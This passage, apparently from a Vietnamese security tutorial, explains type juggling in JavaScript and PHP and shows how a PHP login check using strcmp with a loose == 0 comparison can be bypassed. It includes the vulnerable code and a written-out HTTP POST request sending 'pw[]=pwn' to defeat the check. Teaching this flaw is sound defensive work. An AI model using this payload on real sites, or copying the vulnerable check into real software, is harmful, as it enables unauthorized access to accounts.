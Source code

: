 
### Hành vi Type Juggling trong các ngôn ngữ khác 

Các ngôn ngữ như JavaScript cũng có hành vi tương tự:

- So sánh lỏng lẻo: `"0" == 0` là **true**.
- So sánh nghiêm ngặt: `"0" === 0` là **false**.

Tuy nhiên, JavaScript ít "dễ dãi" hơn PHP. Ví dụ:

```javascript
"0" == "0e1"; // false
```

Kết quả là **false** vì cả hai đều được xử lý như chuỗi.

---

# 13. Bỏ qua xác thực với Type Juggling trong PHP

**Type juggling** có thể gây ra các lỗ hổng bảo mật nghiêm trọng trong PHP nếu không được xử lý đúng cách. Sau đây là cách loại lỗ hổng này có thể dẫn đến việc bỏ qua xác thực:

---

### 1. **Ví dụ: Bypass `strcmp`**

Mã kiểm tra mật khẩu bằng `strcmp`:

```php
$admin_pw = "P@ssw0rd!";
if (isset($_POST['pw'])) {
    if (strcmp($_POST['pw'], $admin_pw) == 0) {
        // Đăng nhập thành công
        echo "Authenticated!";
    } else {
        // Sai thông tin đăng nhập
        echo "Invalid credentials";
    }
}
```

- **Hành vi**: Hàm `strcmp` trả về `0` nếu hai chuỗi bằng nhau. Tuy nhiên, nếu tham số đầu vào không phải chuỗi (ví dụ: một mảng), `strcmp` sẽ trả về `null`. 
- **Type juggling**: So sánh `null == 0` trong PHP dẫn đến kết quả **true**. 

**Khai thác**:
Gửi yêu cầu HTTP với một mảng thay vì chuỗi:
```
POST / HTTP/1.1
Host: vulnerable.site
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

pw[]=pwn
```
